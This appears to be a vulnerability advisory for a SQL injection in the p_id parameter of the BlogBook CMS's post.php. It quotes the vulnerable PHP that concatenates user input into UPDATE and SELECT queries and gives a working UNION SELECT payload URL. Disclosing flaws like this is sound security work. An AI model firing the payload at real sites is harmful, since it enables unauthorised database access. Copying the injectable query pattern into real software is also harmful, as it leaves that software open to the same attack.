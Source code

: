# BlogBook post.php p_id Parameter SQL Injection

**Exploit Title: BlogBook post.php p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/post.php:27`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
 <?php
                if (isset($_GET['p_id'])) {
                    $link_post_id = $_GET['p_id'];

                    $view_query = "UPDATE posts SET post_views_count=post_views_count +1 WHERE post_id=$link_post_id";
                    $send_query = mysqli_query($connection, $view_query);

                    $query = "SELECT * FROM posts WHERE post_id=$link_post_id";
                    $select_all_posts_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_posts_query)) {
                        $post_title = $row['post_title'];
                        $post_id = $row['post_id'];
                        $post_author = $row['post_author'];
                        $post_author_id = $row['author_id'];
                        $post_date = $row['post_date'];
                        $post_image = $row['post_image'];
                        $post_content = $row['post_content'];
                        // $post_content = strip_tags($row['post_content'], "");
                        $post_category_id = $row['post_category_id'];
                        $post_comment = $row['post_comment_count'];
                        $post_views_count = $row['post_views_count'];
                        $query = "SELECT * FROM categories WHERE cat_id={$post_category_id}";
                        $select_categories_id = mysqli_query($connection, $query);
                        $cat = mysqli_fetch_assoc($select_categories_id);
                        $post_category = $cat['cat_title'];

                ?>
```
## Payload

`http://localhost/post.php?p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![post.php sqli](./assets/post_sqli.png)
